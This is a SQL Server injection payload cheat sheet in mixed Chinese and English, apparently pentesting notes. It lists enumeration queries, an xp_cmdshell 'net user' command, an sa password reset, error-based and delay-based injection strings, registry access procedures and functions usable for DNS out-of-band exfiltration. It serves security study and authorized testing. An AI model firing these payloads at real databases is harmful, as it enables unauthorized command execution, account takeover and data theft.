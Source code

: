 SQL Server Payload
=====================================

常见Payload
----------------------------------------
- Version
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT /*comment*/1``
- Space
    - ``0x01 - 0x20``
- 用户信息
    - ``SELECT user_name()``
    - ``SELECT system_user``
    - ``SELECT user``
    - ``SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID``
- 用户权限
    - ``select IS_SRVROLEMEMBER('sysadmin')``
    - ``select IS_SRVROLEMEMBER('db_owner')``
- List User
    - ``SELECT name FROM master..syslogins``
- 数据库信息
    - ``SELECT name FROM master..sysdatabases``
    - ``select concat_ws(table_schema,table_name,column_name) from information_schema.columns``
    - ``select quotename(name) from master..sysdatabases FOR XML PATH('')``
- 执行命令
    - ``EXEC xp_cmdshell 'net user'``
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT char(65)+char(66)`` => return ``AB``
- Delay
    - ``WAITFOR DELAY '0:0:3'`` pause for 3 seconds
- Change Password
    - ``ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'``
- Trick
    - ``id=1 union:select password from:user``
- 文件读取
    - OpenRowset
- 当前查询语句
    - ``select text from sys.dm_exec_requests cross apply sys.dm_exec_sql_text(sql_handle)``
- hostname
    - 用于判断是否站库分离
    - ``select host_name()``
    - ``exec xp_getnetname``
- 服务器信息
    - ``exec xp_msver``

注册表读写
----------------------------------------
- ``xp_regread``
    - ``exec xp_regread N'HKEY_LOCAL_MACHINE', N'SYSTEM\CurrentControlSet\Services\MSSEARCH'``
- ``xp_regwrite``
- ``xp_regdeletvalue``
- ``xp_regdeletkey``
- ``xp_regaddmultistring``

报错注入
----------------------------------------
- ``1=convert(int,(db_name()))``

常用函数
----------------------------------------
- SUSER_NAME()
- USER_NAME()
- PERMISSIONS()
- DB_NAME()
- FILE_NAME()
- TYPE_NAME()
- COL_NAME()

DNS OOB
----------------------------------------
- fn_xe_file_target_read_file
- fn_get_audit_file
- fn_trace_gettable

其他常用存储过程
----------------------------------------
- sp_execute_external_script
- sp_makewebtask
- sp_OACreate
- sp_OADestroy
- sp_OAGetErrorInfo
- sp_OAGetProperty
- sp_OAMethod
- sp_OASetProperty
- sp_OAStop
- xp_cmdshell
- xp_dirtree
- xp_enumerrorlogs
- xp_enumgroups
- xp_fixeddrives
- xp_getfiledetails
- xp_loginconfig
